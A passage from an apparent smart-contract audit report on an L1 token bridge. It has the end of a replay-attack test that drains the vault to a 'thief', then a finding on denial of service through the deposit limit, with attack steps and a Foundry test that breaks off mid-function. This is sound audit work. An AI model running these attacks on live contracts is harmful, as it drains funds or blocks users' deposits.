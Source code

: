 ```solidity
            });
        }

        assertEq(
            token.balanceOf(thief),
            thiefStartingBalance + vaultStartingBalance
        );
    }
```

**Recommended Mitigation:**

Consider modifying the withdrawal mechanism to include some form of replay protection. This could be a `nonce`, `deadline`, etc.

### [H-3] Possible DOS attack in `L1BossBridge::depositTokensToL2()` function due to `DEPOSIT_LIMIT` check

**Description:**

There is a check in the `depositTokensToL2()` function to ensure that sum of tokens currently in the `vault` plus whatever `amount` the user wants to deposit is not greater than the `DEPOSIT_LIMIT` of the protocol. If it is, the `depositTokensToL2()` will revert with a custom error.

An attacker could bring the protocol to a possible grind if they are aware of the **token balance of the vault**.

**Impact:**

While there is no monetary gain for the attacker, this is a DOS attack on the protocol. Any subsequent deposit will be reverted because the `DEPOSIT_LIMIT` has already been reached.

**Proof of Concept:**

1. An attacker gets aware of the balance of tokens in the vault.
2. They calculate how much they will need to deposit (this could be a very big amount...depending on the `DEPOSIT_LIMIT` and vault balance) to make the vault balance match up to exactly the `DEPOSIT_LIMIT`.
3. Any other user who wants to deposit will be unable to do because the `depositTokensToL2()` will keep on reverting.

Plcae the following test into `L1TokenBridge.t.sol` file:

```solidity
    function testCanDosProtocolWithDeposit() public {
        address attacker = makeAddr("attacker");
        address randomUser = makeAddr("randomUser");
        address vaultAddr = address(vault);
        address tokenAddr = address(token);
        uint256 userDepositAmount = token.balanceOf(user);

        // user deposits to L2
        vm.startPrank(user);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2({
            from: user,
            l2Recipient: user,
            amount: userDepositAmount
        });

        assert(token.balanceOf(vaultAddr) == userDepositAmount);
        assert(token.balanceOf(user) == 0);

        uint256 amountToDos = tokenBridge.DEPOSIT_LIMIT() - token.balanceOf(vaultAddr);

        // attacker txns
        deal(tokenAddr, attacker, amountToDos);
        vm.startPrank(attacker);
```